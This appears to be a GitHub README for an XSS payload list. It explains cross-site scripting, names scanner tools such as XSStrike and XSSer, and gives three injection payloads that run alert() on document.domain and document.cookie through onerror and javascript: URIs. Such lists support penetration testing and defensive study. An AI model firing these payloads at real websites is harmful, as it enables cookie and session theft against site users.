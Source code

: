 ### 🚀 Cross Site Scripting ( XSS ) Vulnerability Payload List 🚀

##### Overview : 

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. For more details on the different types of XSS flaws, see: [Types of Cross-Site Scripting](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting).

#### XSS Vulneability Scanner Tool's :

* [XSStrike]

* [BruteXSS Terminal]

* [BruteXSS GUI]

* [XSS Scanner Online]

* [XSSer]

* [xsscrapy]

#### XSS Payload List :

```
<!-- Project Name  : Cross Site Scripting ( XSS ) Vulnerability Payload List -->
<!--        Author : Test -->
<!--      Linkedin : https://www.linkedin.com/in/test/ -->
<!--        GitHub : https://github.com/test/ -->
<!--       Twitter : https://twitter.com/test -->
<!--        Medium : https://medium.com/@test -->


<img src=1 href=1 onerror="javascript:alert(document.domain)"></img>
<image src=1 href=1 onerror="javascript:alert(document.cookie)"></image>

"><iframe src="JavaScript:alert(1)";>
